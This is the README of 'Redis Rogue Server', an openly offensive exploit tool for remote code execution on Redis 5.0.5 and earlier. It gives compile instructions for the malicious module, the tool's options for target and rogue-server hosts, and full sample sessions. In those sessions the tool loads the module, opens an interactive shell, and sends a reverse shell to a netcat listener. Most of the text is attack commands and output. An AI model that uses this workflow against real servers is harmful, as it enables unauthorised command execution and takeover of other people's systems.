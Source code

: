 # Redis Rogue Server

A exploit for Redis(<=5.0.5) RCE, inspired by [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).

__Support interactive shell and reverse shell!__

## Requirements

Python 3.6+

If you want to modify or recompile the redis module, you also require `make`.

## Usage

Compile exploit:

``` bash
cd RedisModulesSDK/exp/
make
```

Copy the .so file to same folder with `redis-rogue-server.py`.

```
➜ ./redis-rogue-server.py -h
______         _ _      ______                         _____                          
| ___ \       | (_)     | ___ \                       /  ___|                         
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __ 
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |   
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig

Usage: redis-rogue-server.py [options]

Options:
  -h, --help           show this help message and exit
  --rhost=REMOTE_HOST  target host
  --rport=REMOTE_PORT  target redis port, default 6379
  --lhost=LOCAL_HOST   rogue server ip
  --lport=LOCAL_PORT   rogue server listen port, default 21000
  --exp=EXP_FILE       Redis Module to load, default exp.so
  -v, --verbose        Show full data stream
```

## Example

### Interactive shell

```
➜ ./redis-rogue-server.py --rhost 127.0.0.1 --lhost 127.0.0.1
______         _ _      ______                         _____                          
| ___ \       | (_)     | ___ \                       /  ___|                         
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __ 
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |   
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig

[info] TARGET 127.0.0.1:6379
[info] SERVER 127.0.0.1:21000
[info] Setting master...
[info] Setting dbfilename...
[info] Loading module...
[info] Temerory cleaning up...
What do u want, [i]nteractive shell or [r]everse shell: i
[info] Interact mode start, enter "exit" to quit.
[<<] whoami
[>>] :n0b0dy
[<<] 
```

### Reverse shell

Invoke reverse shell:

```
➜ ./redis-rogue-server.py --rhost 127.0.0.1 --lhost 127.0.0.1
______         _ _      ______                         _____
| ___ \       | (_)     | ___ \                       /  ___|
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|
                                     __/ |
                                    |___/
@copyright n0b0dy @ r3kapig

[info] TARGET 127.0.0.1:6379
[info] SERVER 127.0.0.1:21000
[info] Setting master...
[info] Setting dbfilename...
[info] Loading module...
[info] Temerory cleaning up...
What do u want, [i]nteractive shell or [r]everse shell: r
[info] Open reverse shell...
Reverse server address: 127.0.0.1
Reverse server port: 9999
[info] Reverse shell payload sent.
[info] Check at 127.0.0.1:9999
[info] Unload module...
```

Receive reverse shell:

```
➜ nc -lvvp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from localhost.localdomain 39312 received!
whoami
n0b0dy
```

## Thanks

* [RicterZ](https://github.com/RicterZ)'s redis exec module: <https://github.com/RicterZ/RedisModules-ExecuteCommand>
